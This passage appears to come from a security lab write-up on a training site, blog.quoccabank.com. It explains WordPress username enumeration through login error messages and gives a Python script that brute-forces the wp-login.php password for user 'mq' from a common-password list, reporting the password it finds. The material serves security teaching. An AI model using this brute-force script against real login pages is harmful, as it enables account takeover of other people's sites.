 ![](images/image-20210712015954288.png)

This identifies to an attacker whether a user account exists and focuses their efforts from there. We can easily brute different permutations of characters as the username to determine which user account username is valid. However, alternative means such as performing recon on the author's page discussed in `Recon - Sensitive Metadata in Page Source` and `IDOR through URL Parameters` can be used as alternative means to enumerate possible usernames.

For accounts such as `admin`, it was trivial to guess the password `admin` to gain access. For other accounts such as `mq`, we can brute force the password by using a wordlist containing the most common passwords. The script below performs an attack that quickly brute force the login of a specified user by repeatedly using a password in the most common password wordlist and checking the response.

```python
def brute_force_pwd(pwd, throttle=0):
    # make request
    username = 'mq'
    payload = {
        'log': username,
        'pwd': pwd
    }
    res = requests.post('https://blog.quoccabank.com/wp-login.php', 
                        data=payload, cert=(cert_path, key_path))
    time.sleep(throttle)

    if res.status_code == 420:
        # make the same request again
        brute_force_pwd(pwd, throttle + 0.1)
    else:
        print("Password: " + pwd)
        if "incorrect" not in res.text:
            print("=== FOUND ===")
            exit()

if __name__ == '__main__':
    # common_passwords.txt - SecLists Top 100000 Password List 
    with open("common_passwords.txt", "r") as pwd_list:
        for pwd in pwd_list:
            brute_force_pwd(pwd.strip())
```

Running the brute force script reveals that the password for username `mq` is `1q2w3e`. It also appears that `mq` has Administrator access to `blog.quoccabank.com`.
